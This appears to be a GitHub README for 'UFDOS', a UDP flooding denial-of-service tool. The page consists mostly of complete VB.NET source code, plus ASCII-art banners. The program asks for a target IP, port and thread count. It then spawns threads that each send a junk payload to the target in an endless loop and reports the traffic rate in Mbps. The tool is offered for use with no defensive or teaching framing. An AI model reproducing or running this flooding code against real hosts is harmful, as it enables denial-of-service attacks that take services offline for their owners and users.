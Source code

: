 # UFDOS
UFDOS is a UDP flooding tool ('U'dp 'F'looding 'DOS')
This tool is writen with VB2010
<h1>Code:</h1>
<code>Imports System.Threading, System.Net.Sockets
Imports System.Net
Imports System.Text

Public Module Module1
    Public UPSIS As Integer
    Sub Main()

        'UFDOS-1b_christmas2023_vbnet20231221_1
        '                                         ==                                            
        '                                        -**=                                           
        '                                   :--==****==--:                                      
        '                                    -**********=.                                      
        '                                     .+*******.                                        
        '                                     .+*******:                                        
        '                                    :=*+===++*+-                                       
        '                                  .--------======:                                     
        '                                 :---------========.                                   
        '                               .------------========:                                  
        '                              :-------------=+++======.                                
        '                            :--------------=****+======-                               
        '                           ----------------=****+========.                             
        '                         .------------------==++==========:                            
        '                         :-------------------=============-                            
        '                           ...--------================:::.                             
        '                             :-------=================-                                
        '                           .------------------==========.                              
        '                          :-------------------===========-                             
        '                        .-----==---------------====--======.                           
        '                       :----+****=--------------==----======-                          
        '                     .------+****=--------------==============.                        
        '                    :--------====----------------==============-                       
        '                  .----------------------::::----================:                     
        '                 :------------------------:::-----================-                    
        '                 ---------------------------------=================.                   
        '                 .:::-----------===============================---.                    
        '                    ------------================================.                      
        '                  .-------------=================================:                     
        '                 .-------------------=====----------==============:                    
        '                :-------------------=****+----------===============-                   
        '               ---------------------=****+-----------==--:--=========.                 
        '             .-------:::-------------=====-----------==:::::==========:                
        '            :-------:::::-----------------------------==----===========-               
        '           :------------------------------------------===================              
        '          ---------------------------------------------=================== 
        '          ---------------------------------------------=================== 
        '            .......................++++++++++++++:.......................  
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++******* 
        '                                   .=+++++*****+: 
        Console.SetWindowSize(105, 21)
        Console.WriteLine("+------------------------------------------------------------------------------------------------------+")
        Console.WriteLine("|UUUUUUUU     UUUUUUUUFFFFFFFFFFFFFFFFFFFFFFDDDDDDDDDDDDD             OOOOOOOOO        SSSSSSSSSSSSSSS |")
        Console.WriteLine("|U::::::U     U::::::UF::::::::::::::::::::FD::::::::::::DDD        OO:::::::::OO    SS:::::::::::::::S|")
        Console.WriteLine("|U::::::U     U::::::UF::::::::::::::::::::FD:::::::::::::::DD    OO:::::::::::::OO S:::::SSSSSS::::::S|")
        Console.WriteLine("|UU:::::U     U:::::UUFF::::::FFFFFFFFF::::FDDD:::::DDDDD:::::D  O:::::::OOO:::::::OS:::::S     SSSSSSS|")
        Console.WriteLine("| U:::::U     U:::::U   F:::::F       FFFFFF  D:::::D    D:::::D O::::::O   O::::::OS:::::S            |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::F               D:::::D     D:::::DO:::::O     O:::::OS:::::S            |")
        Console.WriteLine("| U:::::D     D:::::U   F::::::FFFFFFFFFF     D:::::D     D:::::DO:::::O     O:::::O S::::SSSS         |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::::::::::::F     D:::::D     D:::::DO:::::O     O:::::O  SS::::::SSSSS    |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::::::::::::F     D:::::D     D:::::DO:::::O     O:::::O    SSS::::::::SS  |")
        Console.WriteLine("| U:::::D     D:::::U   F::::::FFFFFFFFFF     D:::::D     D:::::DO:::::O     O:::::O       SSSSSS::::S |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::F               D:::::D     D:::::DO:::::O     O:::::O            S:::::S|")
        Console.WriteLine("| U::::::U   U::::::U   F:::::F               D:::::D    D:::::D O::::::O   O::::::O            S:::::S|")
        Console.WriteLine("| U:::::::UUU:::::::U FF:::::::FF           DDD:::::DDDDD:::::D  O:::::::OOO:::::::OSSSSSSS     S:::::S|")
        Console.WriteLine("|  UU:::::::::::::UU  F::::::::FF           D:::::::::::::::DD    OO:::::::::::::OO S::::::SSSSSS:::::S|")
        Console.WriteLine("|    UU:::::::::UU    F::::::::FF           D::::::::::::DDD        OO:::::::::OO   S:::::::::::::::SS |")
        Console.WriteLine("|      UUUUUUUUU      FFFFFFFFFFF           DDDDDDDDDDDDD             OOOOOOOOO      SSSSSSSSSSSSSSS   |")
        Console.WriteLine("+------------------------------------------------------------------------------------------------------+")
        Console.WriteLine("UFDOS-1b_christmas2023_vbnet20231221_1")
        Console.WriteLine("")
        Console.Write("IP Address:")
        Static IPADDR
        IPADDR = Console.ReadLine()
        Console.Write("Port:")
        Static PORT
        PORT = Console.ReadLine()
        Console.Write("Threads:")
        Static THREADS As Integer
        THREADS = Console.ReadLine()

        Console.WriteLine("Spawning threads(" & THREADS & ")")
        Dim TCNT As Integer
        TCNT = 0
        Do Until TCNT = THREADS
            TCNT = TCNT + 1
            Dim NThread As New Thread(Sub() IKUN(IPADDR, PORT))
            NThread.Start()

        Loop
        Dim NETCNT As New Thread(AddressOf SMALLBLACKZI)
        NETCNT.Start()
        Console.WriteLine("Done! Press ENTER to exit.")
        Console.ReadLine()
        End
    End Sub
    Public Sub IKUN(ByVal IPADDR, ByVal PORT)
        Dim udpClient As New UdpClient
        Dim GLOIP As IPAddress
        Dim GLOINTPORT As Integer
        Dim bytCommand As Byte() = New Byte() {}
        GLOIP = IPAddress.Parse(IPADDR)
        GLOINTPORT = PORT
        udpClient.Connect(GLOIP, GLOINTPORT)
        bytCommand = Encoding.ASCII.GetBytes("QWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyiQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jto0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.j")
        Do
            UPSIS = UPSIS + bytCommand.Length
            udpClient.Send(bytCommand, bytCommand.Length)

        Loop

    End Sub
    Public Sub SMALLBLACKZI()
        Do
            UPSIS = 0
            Thread.Sleep(1000)
            Console.WriteLine(UPSIS * 8 / 1000 / 1000 & "Mbps")
        Loop
    End Sub
End Module
</code>
